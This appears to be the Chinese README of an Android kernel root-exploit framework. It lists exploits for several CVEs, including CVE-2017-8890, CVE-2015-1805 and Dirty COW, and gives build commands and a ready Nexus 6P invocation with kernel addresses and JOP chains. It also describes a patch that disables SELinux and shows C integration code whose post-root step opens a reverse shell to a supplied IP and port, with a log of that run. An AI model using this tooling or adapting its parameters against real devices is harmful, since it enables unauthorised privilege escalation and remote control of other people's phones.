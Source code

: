 #+OPTIONS: ^:{}
#+OPTIONS: toc:nil
#+AUTHOR: idhyt

** Warning

*请遵守GPL开源协议, 请遵守法律法规, 本项目仅供学习和交流, 请勿用于非法用途!*

*道路千万条, 安全第一条, 行车不规范, 亲人两行泪.*

** Android Root Zap Framework [100%]

早期研究 Android Root 时做的提权方案和部分漏洞的利用和适配, 感激曾经一起学习和共事的伙伴们.

- [X] 通用的序列化root适配参数
- [X] 非常容易集成, 只需要根据漏洞实现任意读写即可
- [X] 通用内核提取patch方案, 任意读写后一个函数全搞定
- [X] 内核保护机制绕过(PXN, SElinux)
- [X] 部分厂商内核保护机制绕过(huawei, samsung, oppo, vivo)

** Exploit(部分)

*1001*: CVE-2017-8890 v1版, 适配Nexus6P

*1002*: CVE-2017-8890 v2版, 适配华为P10

*1003*: CVE-2017-8890 兼容所有64位机型，如Nexus6p, 华为MT7, MT10, P10等

*1004*: CVE-2017-8890 针对32位机型，如Nexus5

*1010*: CVE-2017-9077 同CVE-2017-8890

*1021*: CVE-2015-1805 V1, 适配SM-A700L

*1022*: CVE-2015-1805 V2, 适配更多机型

*1041*: CVE-2015-3636 适配了nexus4等机型

*1051*: CVE-2016-5159 dirtycow漏洞, android 5.0以下机型

** Build

需要保证主机上存在 make 和 ndk-build (版本过高可能存在兼容性问题, 建议小于25以下版本)

#+begin_src shell

  make build RS=CVE-2015-1805/1022

#+end_src

** Integration

*** 标志位

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]

#+end_example


- n: 方案号

- k: *内核函数* 地址以及一些常用的 *偏移量*, 需要提前在 *param.h* 中声明, 包含在 *[]* 中，用 *;* 分割, 结尾必须包含 *;*

- j: jop地址, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;* , 每条jop以 *0x0=0x0* 结尾, 结尾必须包含 *;* , 预留了5条jop

- p: root后patch地址与内存修复, 主要针对selinux和需要修复的寄存器, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

- r: 可选参数, 反弹shell和脚本, 需要提前在 *param.h* 中声明, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

每个参数标志位由 *&* 分割, 如：

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]&r=[901=ip;902=port;903=install.sh;]

#+end_example

*** 适配参数示例

Nexus 6P 适配参数如下:

#+begin_src shell

  ./rootz "n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]"

#+end_src

n=1001: 方案号1001

#+begin_example

k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]

#+end_example

param.h中定义了

#+begin_src c

  #define k_ptmx_fops "101"
  #define k_ptmx_ioctl_offset "102"
  #define k_init_task "104"
  #define k_task_security_offset "105"

#+end_src

最终解析后会自动赋值. (r字段相同解析方式)

#+begin_example

j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]

#+end_example

以 0x0=0x0 分割，总共2条jop, 解析后对应的jop结构为

#+begin_example

jop1:
{0x180, 0xaaaaaaaa}
{0x158, 0xbbbbbbbb}
{0x2d0, 0xffffffc00024c2c4}
{0x0, 0x0}
jop2:
{0x0, 0xffffffc000afe07c}
{0x28, 0xbbbbbbbb}
{0x48, 0xffffffc0002ef958}
{0x90, 0xdddddddd}
{0x10, 0xffffffc000ce6000}
{0x8, 0xffffffc000318610}
{0x0, 0x0}

#+end_example

p=[0xffffffc00193a1bc=0x0=0x4;]

总共一个patch的地址，地址为0xffffffc00193a1bc(selinux_enforcing), 值为0, 长度4个字节

解析成对应的patch结构为

#+begin_example

p_patch:
{0xffffffc00193a1bc, 0x0, 0x4}
{0x0, 0x0, 0x0}

#+end_example

*** 新增root方案集成

代码部分需要引入参数解析部分内容, 主要为 *rootz_before* 和 *rootz_after* 两个函数, 代码形似

#+begin_src c

  int main(int argc, char *argv[]) {

    if(rootz_before(argc, argv)) {
      log_dump(LOG_ERR, "[-] rootz_before failed!\n");
      return -1;
    }

    // 提权操作
    exploit();

    if(rootz_after()) {
      log_dump(LOG_ERR, "[-] rootz_after failed!\n");
    }

    while(1);

    return 0;
  }

#+end_src

引入的代码内容如下:


#+begin_src c

  /* ------------------ root define begin ------------------- */
  #include "rootz.h"
  #include "log.h"

  /* adp args */
  static int adp_sn;
  static unsigned long adp_init_task;
  static unsigned long adp_task_security_offset;

  static unsigned long adp_ptmx_fops;
  static unsigned long adp_ptmx_ioctl_offset;
  static unsigned long adp_patch_ptmx_ioctl_jop;

  /* run script path */
  static char adp_script_path[0xff] = { 0 };

  /* reverse shell ip&port */
  static char adp_rshell_ip[0x40] = { 0 };
  static char adp_rshell_port[0x10] = { 0 };

  /*
    初始化适配参数
  ,*/
  #include "dict.h"

  extern dict_t *transl_param_dict;

  static int get_adp_ulval(char *name, unsigned long *value) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    ,*value = strtoul(var, NULL, 16);
    log_dump(LOG_DEBUG, "%s = 0x%lx\n", name, *value);
    return 1;
  }

  static int get_adp_str(char *name, char *value, int len) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    strncpy(value, var, len);
    log_dump(LOG_DEBUG, "%s = %s, %d\n", name, value, strlen(value));
    return 1;
  }

  static int rootz_before(int argc, char *argv[]) {
    // 设置日志路径, 不设置则打印到控制台
    // set_logfile_path("/data/local/tmp/8890.log");
    // 适配参数初始化
    if (parse_args(argc, argv) < 0) {
      log_dump(LOG_ERR, "[-] parse_args failed\n");
      return -1;
    }

    char *var;

    // 0 failed

    /* root before */
    if (!dict_get(transl_param_dict, n_sn, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get n_sn failed\n");
      return -1;
    }
    adp_sn = atoi(var);
    log_dump(LOG_DEBUG, "adp_sn = %d\n", adp_sn);

    if(!get_adp_ulval(k_init_task, &adp_init_task)) return -1;
    if(!get_adp_ulval(k_task_security_offset, &adp_task_security_offset)) return -1;
    if(!get_adp_ulval(k_ptmx_fops, &adp_ptmx_fops)) return -1;
    if(!get_adp_ulval(k_ptmx_ioctl_offset, &adp_ptmx_ioctl_offset)) return -1;
    if(!get_adp_ulval(j_patch_ptmx_ioctl_jop, &adp_patch_ptmx_ioctl_jop)) return -1;

    /* root after */
    get_adp_str(r_script_path, adp_script_path, sizeof(adp_script_path));
    get_adp_str(r_rshell_ip, adp_rshell_ip, sizeof(adp_rshell_ip));
    get_adp_str(r_rshell_port, adp_rshell_port, sizeof(adp_rshell_port));

  #if 0
    printf(" adp_init_task = 0x%lx\n", adp_init_task);
    printf(" adp_task_security_offset = 0x%lx\n", adp_task_security_offset);
    printf(" adp_ptmx_fops = 0x%lx\n", adp_ptmx_fops);
    printf(" adp_ptmx_ioctl_offset = 0x%lx\n", adp_ptmx_ioctl_offset);
    printf(" adp_patch_ptmx_ioctl_jop = 0x%lx\n", adp_patch_ptmx_ioctl_jop);

  #endif


    return 0;
  }

  /*
    提权过后的操作
  ,*/

  static int rootz_after() {
    char *var;

    if(strlen(adp_script_path)) {
      run_shell_commond("/system/bin/sh", adp_script_path);
    }

    if(strlen(adp_rshell_ip) && strlen(adp_rshell_port)) {
      log_dump(LOG_DEBUG, "rshell: ip = %s, port = %s\n", adp_rshell_ip, adp_rshell_port);
      rshell_simple(adp_rshell_ip, adp_rshell_port);
    }

    dict_destory(transl_param_dict);
    free(transl_param_dict);
    return 0;
  }

  /* ------------------ root define end ------------------- */

#+end_src

完整的参数解析流日志：

#+begin_src shell

  [*] /system/bin/sh -c "/data/local/tmp/rootz 'n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]&r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]'"
  args: n=1001
  key = n, value = 1001
  args: k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  key = k, value = [101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  args: j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  key = j, value = [0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  jop num = 2
  args: p=[0xffffffc00193a1bc=0x0=0x4;]
  key = p, value = [0xffffffc00193a1bc=0x0=0x4;]
  p_addr = 0xffffffc00193a1bc, p_value = 0x0, p_len = 0x4
  args: r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]
  key = r, value = [901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]

  transl_param_dict: 0x7104a02060
  104 => 0xffffffc001779fe0
  105 => 0x70
  201 => 0xffffffc00074c954
  n => 1001
  901 => 192.168.0.105
  902 => 4000
  903 => /data/local/tmp/install.sh
  101 => 0xffffffc001a044a0
  102 => 0x48

  j_jop:
  jop1:
  {0x180, 0xaaaaaaaa}
  {0x158, 0xbbbbbbbb}
  {0x2d0, 0xffffffc00024c2c4}
  {0x0, 0x0}
  jop2:
  {0x0, 0xffffffc000afe07c}
  {0x28, 0xbbbbbbbb}
  {0x48, 0xffffffc0002ef958}
  {0x90, 0xdddddddd}
  {0x10, 0xffffffc000ce6000}
  {0x8, 0xffffffc000318610}
  {0x0, 0x0}
  jop3:
  {0x0, 0x0}
  jop4:
  {0x0, 0x0}
  jop5:
  {0x0, 0x0}

  p_patch:
  {0xffffffc00193a1bc, 0x0, 0x4}
  {0x0, 0x0, 0x0}
  adp_sn = 1001
  104 = 0xffffffc001779fe0
  105 = 0x70
  101 = 0xffffffc001a044a0
  102 = 0x48
  201 = 0xffffffc00074c954
  903 = /data/local/tmp/install.sh, 26
  901 = 192.168.0.105, 13
  902 = 4000, 4

#+end_src
